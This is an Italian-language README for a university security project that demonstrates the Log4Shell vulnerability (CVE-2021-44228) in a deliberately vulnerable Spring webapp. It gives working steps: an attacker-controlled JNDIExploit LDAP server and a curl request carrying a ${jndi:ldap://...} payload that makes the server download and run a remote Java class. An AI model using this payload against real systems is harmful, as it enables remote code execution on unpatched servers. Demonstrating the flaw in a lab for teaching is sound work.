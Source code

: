 # Progetto sicurezza Informatica ICDA A.A 2021-2022

Lo scopo di questo progetto è quello di mostrare la vulnerabilità Log4shell CVE-2021-44228 che affligge la libreria Java Log4j , impiegata da innumerevoli software di ogni tempo (programmi standard, giochi, webapp).

In questo progetto è stata scelta una webapp spring (popolare web framework Java MVC), opportunamente modificata per lo scopo.

La parte da me modificata si trova nel controller "HomeController", file "HomeController.java"

La libreria impiegata di log4J 2.6.1.
Nel progetto è presente il file pom.xml per la compilazione tramite Maven.
Ho creato un DockerFile che contiene al suo interno tutto il necessario per avviare l'immagine senza alcuna configurazione e senza installare la JDK necessaria per dimostrare l'exploit.

## Utilizzo
Prima di tutto sarà necessario avviare un server mysql e impostare il relativo indirizzo, username e password nel file "application.properties", all'interno della cartella "resources". è possibile utilizzare un container docker allo scopo.

Successivamente sarà necessario avviare il server LDAP che servirà la classe Java con il Payload.


```bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i tuo-indirizzo-ip-privato -p 8888
```



Per sfruttare la vulnerabilità è necessario  creare un payload (un comando che si vuole far eseguire al server remoto). Esempio:

```bash
touch /tmp/hacked
```

e includerlo (codificato in base64) in una richiesta da inviare al server della webApp. Si userà il comando Curl per lo scopo.

Una volta inviato il comando, il metodo della libreria Log4j interpreterà il comando, sarà scaricata ed eseguita  una classe Java dal server LDAP (controllato dall'attaccante)  e successivamente avverrà l'esecuzuzione del payload, contenuto all'interno della classe Java scaricata nel passo precedente. Esempio di comando valido:

```bash
curl -A '${jndi:ldap://192.168.10.128:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9oYWNrZWQ=}' http://172.18.0.2:8080
```

## Avvio web-app

```bash
docker run --name nomeApplicazione -p 8080:8080 --network nomeRete
```




Successivamente sarà possibile notare dai log del server LDAP che è stata servita la classe Java al server della webapp, con il relativo payload.
A seconda del comando eseguito, è possibile vedere il risultato. Ad esempio, se il payload provoca la creazione di file, è possibile entrare nel container e verificarlo. Ad esempio:


```bash
docker exec -it nomeApplicazione sh
```

```bash
ls /tmp/hacked
```





```

## Contributing
La webApp impiegata in questo progetto è stata creata dall'autore GNico (github: https://github.com/GNico/spring-eshop )


Il server LDAP è stato creato da feihong-cs.


La libreria Log4J è di Apache Software foundation https://logging.apache.org/log4j/2.x/index.html

Integrazione Log4J nella webApp e containerizzazione: Andrea Carro



## License
[MIT](https://choosealicense.com/licenses/mit/)
